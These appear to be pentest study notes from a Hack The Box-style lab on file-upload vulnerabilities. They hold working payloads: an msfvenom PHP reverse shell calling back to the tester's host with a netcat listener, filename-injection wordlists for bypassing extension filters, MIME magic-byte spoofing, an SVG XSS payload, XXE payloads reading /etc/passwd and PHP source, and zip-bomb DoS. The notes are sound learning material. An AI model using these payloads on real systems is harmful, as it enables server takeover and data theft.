 PHP Reverse Shell Repository : https://github.com/pentestmonkey/php-reverse-shell

> While running the above reverse shell, we need to start the Netcat Listener : `nc -lvnp OUR_PORT`

Generating Custom Reverse Shell : `msfvenom -p php/reverse_php LHOST=OUR_IP LPORT=OUR_PORT -f raw > reverse.php`

## Client Side Validation
Use Burp Suite, on the front end, add a PNG File and then intercept this request and try to change the filename and add the payload in the body.

![[Pasted image 20250416175605.png]]

We can also remove the checkFile function present in the HTML, that would remove the Client Side Validation.

## Blacklisting Filters
**Fuzzing Extensions :**  To know what all files extensions are allowed we can simply use the BurpSuite and put a wordlist for it provided by Seclist.
![[Pasted image 20250416180959.png]]

## Whitelisting Filters
```php
$fileName = basename($_FILES["uploadFile"]["name"]);

if (!preg_match('^.*\.(jpg|jpeg|png|gif)', $fileName)) {
    echo "Only images are allowed";
    die();
}
```

If a web-server is using Filters like this, then we know here it is using Regex to check for the file type and we can surely trick the server for the file type.

## Double Extensions
The code only tests whether the file name contains an image extension; a straightforward method of passing the regex test is through `Double Extensions`. For example, if the `.jpg` extension was allowed, we can add it in our uploaded file name and still end our filename with `.php` (e.g. `shell.jpg.php`), in which case we should be able to pass the whitelist test, while still uploading a PHP script that can execute PHP code.
![[Pasted image 20250417125619.png]]

And if the Regex Pattern is something like this : 
```php
if (!preg_match('/^.*\.(jpg|jpeg|png|gif)$/', $fileName)) { ...SNIP... }
```
Then we can't use the above method.

## Character Injection
We can inject several characters before or after the final extension to cause the web application to misinterpret the filename and execute the uploaded file as a PHP script.

The following are some of the characters we may try injecting:

- `%20`
- `%0a`
- `%00`
- `%0d0a`
- `/`
- `.\`
- `.`
- `…`
- `:`

Each character has a specific use case that may trick the web application to misinterpret the file extension. For example, (`shell.php%00.jpg`) works with PHP servers with version `5.X` or earlier, as it causes the PHP web server to end the file name after the (`%00`), and store it as (`shell.php`), while still passing the whitelist. The same may be used with web applications hosted on a Windows server by injecting a colon (`:`) before the allowed file extension (e.g. `shell.aspx:.jpg`), which should also write the file as (`shell.aspx`). Similarly, each of the other characters has a use case that may allow us to upload a PHP script while bypassing the type validation test.

**Custom Wordlist Bash Script**
```bash
for char in '%20' '%0a' '%00' '%0d0a' '/' '.\\' '.' '…' ':'; do
    for ext in '.php' '.phps'; do
        echo "shell$char$ext.jpg" >> wordlist.txt
        echo "shell$ext$char.jpg" >> wordlist.txt
        echo "shell.jpg$char$ext" >> wordlist.txt
        echo "shell.jpg$ext$char" >> wordlist.txt
    done
done
```
This will create a custom wordlist and then we can add that into the BurpSuite.

## Type Filters

```php
$type = $_FILES['uploadFile']['type'];

if (!in_array($type, array('image/jpg', 'image/jpeg', 'image/png', 'image/gif'))) {
    echo "Only images are allowed";
    die();
}
```
According to this PHP Code, we can understand that 3 types of Content_Types are allowed :
- `image/jpg`
- `image/jpeg`
- `image/png`

``` bash
wget https://raw.githubusercontent.com/danielmiessler/SecLists/refs/heads/master/Discovery/Web-Content/web-all-content-types.txt
cat web-all-content-types.txt | grep 'image/' > image-content-types.txt
```
By running these commands, we get a list of all Content-Types and we can brute-force them and check what types of files are actually getting filtered through.

## MIME-Type
`Multipurpose Internet Mail Extensions (MIME)` is an internet standard that determines the type of a file through its general format and bytes structure.

This is usually done by inspecting the first few bytes of the file's content, which contain the [File Signature](https://en.wikipedia.org/wiki/List_of_file_signatures) or [Magic Bytes](https://web.archive.org/web/20240522030920/https://opensource.apple.com/source/file/file-23/file/magic/magic.mime). For example, if a file starts with (`GIF87a` or `GIF89a`), this indicates that it is a `GIF` image, while a file starting with plaintext is usually considered a `Text` file. If we change the first bytes of any file to the GIF magic bytes, its MIME type would be changed to a GIF image, regardless of its remaining content or extension.

**Tip:** Many other image types have non-printable bytes for their file signatures, while a `GIF` image starts with ASCII printable bytes (as shown above), so it is the easiest to imitate. Furthermore, as the string `GIF8` is common between both GIF signatures, it is usually enough to imitate a GIF image.

Let's take a basic example to demonstrate this. The `file` command on Unix systems finds the file type through the MIME type. If we create a basic file with text in it, it would be considered as a text file, as follows:
```shell-session
ShibuShivansh@htb[/htb]$ echo "this is a text file" > text.jpg 
ShibuShivansh@htb[/htb]$ file text.jpg 
text.jpg: ASCII text
```

Now we just need to write that Magic Bytes according to our needs to make it look like a legit file type even if the extension is not actually whitelisted.

## XSS using File Type Attack
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
<svg xmlns="http://www.w3.org/2000/svg" version="1.1" width="1" height="1">
    <rect x="1" y="1" width="1" height="1" fill="green" stroke="black" />
    <script type="text/javascript">alert(window.origin);</script>
</svg>
```
We can add something like this as the payload and upload this as an SVG File and then can execute a XSS Payload in the Script Section.


## XXE Exploitation
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<svg>&xxe;</svg>
```
If we use this as the payload and upload to the server as an SVG, it will share the contents present in the file `/etc/passwd`.


To use XXE to read source code in PHP web applications, we can use the following payload in our SVG image:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php"> ]>
<svg>&xxe;</svg>
```

And once this is uploaded we get the contents of the PHP File as Base64 encoded content and then we could decode that.


## DoS
Furthermore, we can utilize a `Decompression Bomb` with file types that use data compression, like `ZIP` archives. If a web application automatically unzips a ZIP archive, it is possible to upload a malicious archive containing nested ZIP archives within it, which can eventually lead to many Petabytes of data, resulting in a crash on the back-end server.

